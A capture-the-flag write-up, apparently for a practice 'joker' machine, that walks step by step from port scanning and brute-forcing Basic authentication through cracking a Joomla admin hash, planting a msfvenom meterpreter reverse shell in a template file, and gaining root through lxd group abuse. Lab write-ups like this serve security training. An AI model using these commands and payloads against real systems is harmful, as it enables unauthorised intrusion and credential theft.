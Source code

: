 # enumerate
open port:
- 22 ssh
- 80 http
  - Apache/2.4.29
  - /index.html (Status: 200)
  - /phpinfo.php (Status: 200)
  - /secret.txt (Status: 200)
```
Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```
rock? rockyou.txt?
- 8080 need to authenticate

base on the conversation, we know that the user is `joker`. With burpsuit we intercept the post request and see how it is look like, not that there is a header call `Authorization: Basic am9rZXI6aGFubmFo` is a encoded `username:password` in base64. I then create a small scrip which create a wordlist for us.
```py
import base64
filne = '/usr/share/wordlists/rockyou.txt'
joker = open('joker.txt', 'w')
with open(filne, 'r+') as f:
    lines = f.readlines()
    for i in range(0, 10): # insert line to read
        auth = 'joker:'+lines[i]
        joker.write(base64.b64encode(auth)+'\n')
joker.close()
f.close()
```
now use burpsuit/hydra and try to crack the password, this can take really long time.(hint: encode what I show you above to get password).use the joker credential to login, note that the blog is using `joomla`. let use gobuster to file out more directory
```console
$ gobuster dir -U joker -P <pass> -u http://$IP:8080/ -w /usr/share/SecLists/Discovery/Web-Content/big.txt -x .http,.bak,.tar,.zip -t 54
```
- /administrator/ is a admin login page.. I try to login with joker credential... didnt work
- /backup: I got so happy when I see it.. juicy XD
Oh backup.zip is password protected. Luckly for us, the password to backup.zip is the joker's password. no need to use john to crack it. There are many interesting file here but we are looking for something that containt admin credentail so we can use it to log in to the admin page. 

Bingo there is a /db which contain joomladb.sql > sql database. let use grep to find juciy stuff.
```console
kali@kali:~/THM/joker/backup-(1)/db$ grep user joomladb.sql 
INSERT INTO `cc1gr_users` VALUES (547,'Super Duper User','admin','admin@example.com','<hash here>',0,1,'2019-10-08 12:00:15','2019-10-25 15:20:02','0','{\"admin_style\":\"\",\"admin_language\":\"\",\"language\":\"\",\"editor\":\"\",\"helpsite\":\"\",\"timezone\":\"\"}','0000-00-00 00:00:00',0,'','',0);
/*!40000 ALTER TABLE `cc1gr_users` ENABLE KEYS */;
```
BOOOM! we got admin credential. not that that password is hash using `bcrypt` (google "hashcat hash example" to define the hash). now use netcat to decryp the hash
```console
$ hashcat -m 3200 -a 0 -o crack.txt '$2y$<hashherhe>' /usr/share/wordlists/rockyou.txt --force
```
now let login to to admin page use the credential we got. So the plan is try to get reverse shell to get foothold to the server. after some diggin I found [this](https://www.hackingarticles.in/joomla-reverse-shell/). I will go for msfvenom and msfconsole way since we might need to upload stuff in the further attack and msfconsole make it easier.

start with create a meterpreter reverse shell using msfvenom
```
msfvenom -p php/meterpreter/reverse_tcp lhost=tun0 lport=1234 R
```
now back to joomla admin panel. go to *extensions* then *templates* -> *Beez3* -> and edit *error.php* with the payload that we generated with msfvenom. let go back to downloaded backup. note that you can find error.php at `/templates/beez3/error.php` so it should be the same way on the web page.

Run msfconsole
```
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost tun0
set lport 1234
exploit
```
then go and visit `/templates/beez3/error.php` to execute our payload. Boom we got meterpreter shell.

Drop down to shell and run `which python/python3` to check if there are any python install, we need it to generate tty shell. Yes we have python3.
```console
python3 -c 'import pty; pty.spawn("/bin/sh")' # spawn tty shell
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
```
NICE seem like are a member of lxd group. I know that we can gain root by abusing lxd privilage from [Tabby](../HackTheBox/tabby.md) check the link if you want to know in depth. In kali run:
```console
$ wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine # download build-alpine
$ chmod 777 build-alpine
$ sudo ./build-alpine  # build it
```
now back to meterpreter. backgroup the current chanel and then upload alpine to the server.
```
meterpreter > upload script/lxd/myalpine.tar.gz
meterpreter > channel -i 0
$ lxc image import alpine-v3.12-x86_64-20200728_1308.tar.gz --alias kurohat
$ lxc init kurohat kurocontainer -c security.privileged=true
$ lxc config device add kurocontainer kurodevice disk source=/ path=/mnt/root recursive=true
$ lxc start kurocontainer
$ lxc exec kurocontainer /bin/sh
~ # whoami  
whoami
root
ls  /mnt/root/root/
final.txt
~ # cat /mnt/root/root/final.txt
cat /mnt/root/root/final.txt

     ██╗ ██████╗ ██╗  ██╗███████╗██████╗ 
     ██║██╔═══██╗██║ ██╔╝██╔════╝██╔══██╗
     ██║██║   ██║█████╔╝ █████╗  ██████╔╝
██   ██║██║   ██║██╔═██╗ ██╔══╝  ██╔══██╗
╚█████╔╝╚██████╔╝██║  ██╗███████╗██║  ██║
 ╚════╝  ╚═════╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
                                         
!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/rajchandel/
Aarti Singh: https://in.linkedin.com/in/aarti-singh-353698114

+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |H|A|C|K|I|N|G|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
```
GGWP